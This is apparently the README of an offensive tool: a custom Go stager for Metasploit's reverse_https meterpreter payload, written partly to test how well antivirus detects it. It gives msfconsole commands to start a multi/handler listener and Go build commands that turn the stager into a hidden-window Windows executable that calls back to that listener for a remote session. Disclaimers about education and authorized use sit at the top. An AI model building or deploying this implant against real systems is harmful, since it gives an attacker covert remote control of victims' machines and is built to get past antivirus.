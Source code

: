 **!!! This is for educational purposes only !!!** <br> **!!! Use this only where authorized !!!**

This is a custom stager written for Metasploit Framework's reverse_https meterpreter payload. I wrote this to get a better understanding of Metasploit Framework's payloads and how well antiviruses detect custom stagers.

# Launching a listener
Using the included `.rc` file launch msfconsole i.e. `msfconsole -f ./listener.rc`

Or run at least the following commands in msfconsole substituting your listening address and port number:
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lport ENTERPORTNUMBERHERE
set lhost ENTERLISTENADDRESSHERE
run
```

# Compiling the payload
**Ensure you have changed the host and port variables in the msf_rev_https.go file.**

The following examples assume you have a shell open in the directory of the msf_rev_https.go file.

These will result in a `.exe` file that will call back to your msfconsole listener.
### Windows
    go build -trimpath -ldflags "-H=windowsgui -w -s" -o newExecutable.exe . 
### Linux
    env GOOS=windows GOARCH=amd64 go build -trimpath -ldflags "-s -w -H=windowsgui" -o newExecutable.exe .
